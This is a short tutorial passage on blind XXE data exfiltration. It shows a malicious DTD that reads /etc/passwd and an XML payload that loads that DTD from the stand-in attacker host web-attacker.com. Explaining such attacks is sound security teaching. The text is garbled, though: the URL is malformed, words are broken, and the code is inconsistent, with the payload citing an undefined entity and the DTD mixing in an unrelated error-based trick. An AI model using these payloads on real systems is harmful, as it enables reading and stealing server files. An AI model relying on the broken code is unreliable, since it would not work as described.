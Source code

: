 Exfiltrating sensitive data in blind XXE is hard but not possible. This can be achieved by hosting a malicious DTD on a system that an attacker controls and then invoking it within the XXE payload. An example of a malicious DTD to exfiltrate contents of `/etc/passwd`:
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

 he attacker must then host the malicious DTD on a system they control. For example, the attacker might serve it at the following URL: 
`https:z//web-attacker.com/malicious.dtd`.

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://web-attacker.com/malicious.dtd">
  %remote;
  %error;
]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
## Note
This technique might not work with some file contents, including the newline characters. This is because some XML parsers fetch the URL defined in the external entity using an API that validates the whitelisted characters against the URL string. In this situation, it might possible to use the FTP protocol instead. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.